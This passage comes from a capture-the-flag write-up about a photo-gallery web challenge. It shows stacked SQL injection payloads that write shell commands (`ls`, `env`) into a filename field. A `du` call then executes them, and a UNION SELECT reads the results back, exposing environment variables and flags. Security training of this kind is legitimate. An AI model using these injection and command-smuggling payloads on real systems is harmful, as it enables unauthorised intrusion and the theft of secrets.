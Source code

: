 And now querying with `/fetch?id=4` returns our image!

It's time to get remote code execution (RCE). Or so I though... Going back to the homepage did not display my new photo. Going back to the source code to understand why made me notice the `LIMIT 3` in the query below:

```python
cur.execute('SELECT id, title, filename FROM photos WHERE parent=%s LIMIT 3'
```

I guess we need to update one of our records with the value we want instead of creating a new one. Or delete the existing ones, any solution is a valid one. Let's go with the `UPDATE` one and do some recon on the file system:

```sql
1; UPDATE photos SET filename=";ls > recon.txt" where id=3; commit;
```

Now we can go back and refresh the homepage so the `'du -ch <files>; <our command> || exit 0'` command is executed and then we can read our new file with:

```sql
?id=6 UNION SELECT 'recon.txt';
```

we get:

```bash
Dockerfile files main.py main.pyc prestart.sh recon.txt requirements.txt uwsgi.ini
```

Let's investigate these other files! After going over these one by one, the one that gave me an idea was `prestart.sh` since it contains the contents:

```bash
#!/bin/bash set -e service mysql start & python setup.py rm setup.py
```

Could this `setup.py` be adding something to our environment? Let's validate this by adding the contents our environment to our `recon.txt` file with the `env` command:

```sql
1; UPDATE photos SET filename=";env > recon.txt" where id=3; commit;
```

And reading this file gives us our last flag, and all the other ones!

```bash
...
FLAGS=["^FLAG^...$FLAG$","^FLAG^...$FLAG$","^FLAG^...$FLAG$"]
...
```

## Conclusion

This was a fun challenge that forced us to read source code and also use and learn a bunch about SQL and MySQL features. Thinking back, instead of getting a hint we could have tried to enumerate our server for common files like `README.md`, `Dockerfile`, `main.py`, `Procfile` and so on until we found a hit. Let's keep it in mind for future sessions.

Thanks for reading and I will see you in our next challenge!